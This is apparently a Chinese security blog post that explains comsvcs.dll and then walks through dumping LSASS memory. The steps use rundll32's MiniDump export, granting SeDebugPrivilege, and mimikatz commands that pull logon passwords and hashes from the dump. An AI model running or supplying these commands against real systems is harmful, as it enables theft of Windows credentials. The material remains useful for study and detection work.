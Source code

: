 #  利用Comsvcs.dll 获取转储文件

原创 Beret-SEC  [ 贝雷帽SEC ](javascript:void\(0\);)

**贝雷帽SEC** ![]()

微信号 Beret-Sec

功能介绍 网络安全爱好者，记录、分享网络安全方面的相关知识~

____

___发表于_

  
![]()

**Tips +1  
**

![]()

  

##  关于Comsvcs.dll

 **comsvcs.dll** 是 Windows 操作系统中的一个动态链接库（DLL），负责提供 Component Services
的核心功能。这个组件服务是一个用于构建分布式、可重用组件的系统，其中使用了 Component Object
Model（COM）和事务处理。让我们用更简单易懂的语言解释：

  1.  **组件服务：** 就像建造一座大楼需要不同的组件（如砖块、钢筋、窗户等），在软件开发中，我们也需要构建不同的模块和功能。组件服务就是 Windows 提供的一种方式，让程序员更容易地创建、管理和使用这些软件组件。

  2.  **COM+ 组件模型：** COM+ 是一种软件设计模型，它允许程序员创建独立、可重用的软件组件。这些组件可以像积木一样组合在一起，构建复杂的应用程序。

  3.  **事务处理：** 假设你在网上购物，购物车中有多个商品，你希望一次性完成所有交易。COM+ 提供的事务处理功能就像是一个购物车，确保多个操作要么一起成功，要么一起失败，防止因为某个操作失败而导致数据不一致。

  4.  **Dynamic Link Library (DLL)：** **comsvcs.dll** 是一个动态链接库，其中包含了许多函数和功能，这些函数可以在程序运行时被其他程序调用。简单来说，它是一个共享的软件组件，可以被多个程序共用。

总体来说， **comsvcs.dll** 在 Windows
中扮演着一个重要的角色，它使得开发者更容易构建复杂的、可靠的应用程序，特别是涉及到分布式和事务性的场景。

## 利用过程

通过上面我们简单的了解的comsvcs.dll
的作用，comsvcs.dll作为Windows自带的DLL文件，它包含了一个名为MiniDump的函数，而该函数底层调用了MiniDumpWriteDump接口，我们可以利用该函数创建指定进程的转储文件。

![]()

  *  **hProcess** : 要生成 Minidump 的进程句柄。

  *  **ProcessId** : 进程的 ID。

  *  **hFile** : 要写入的 Minidump 文件的句柄。

  *  **DumpType** : Minidump 的类型，如完全、仅内存、仅模块信息等。

  *  **ExceptionParam** : 异常信息。

  *  **UserStreamParam** : 用户定义的数据流信息。

  *  **CallbackParam** : 回调函数的信息。

1、获取lsass 进程PID

    
    
    tasklist | findstr /i lsass

![]()

2、开启SeDebugPrivilege特权

利用comsvcs.dll 导出转储文件， 还需要开启 SeDebugPrivilege权限，但是 cmd
本身是禁用SeDebugPrivilege特权的。我们可以直接使用powershell进行操作，因为powerhsell默认是启用。

![]()

当然我们可以尝试通过 **ntrights.exe** 工具开启特权（开启后需要重新启动才生效）

执行以下命令以授予 **SeDebugPrivilege** 权限：

    
    
    ntrights +r SeDebugPrivilege -u <Your-Username>  
    # <Your-Username> 替换为你的用户名。

如果你想将权限授予给当前登录的用户，可以使用 **%USERNAME%** 变量，如下所示：

    
    
    ntrights +r SeDebugPrivilege -u %USERNAME%

3、获取转储文件

    
    
    powershell rundll32.exe comsvcs.dll,MiniDump 708 C:\Windows\Temp\lsass.dmp full

![]()

4、使用mimikatz 获取hash

    
    
    mimikatz.exe "sekurlsa::minidump lsass.DMP" "sekurlsa::logonPasswords" exit

![]()

![]()

  

![]()

![]()

  

                                        

End

  

“点赞、在看与分享都是莫大的支持”  

  

  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 利用Comsvcs.dll 获取转储文件

原创 Beret-SEC  [ 贝雷帽SEC ](javascript:void\(0\);)

轻触阅读原文

![]()

贝雷帽SEC

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

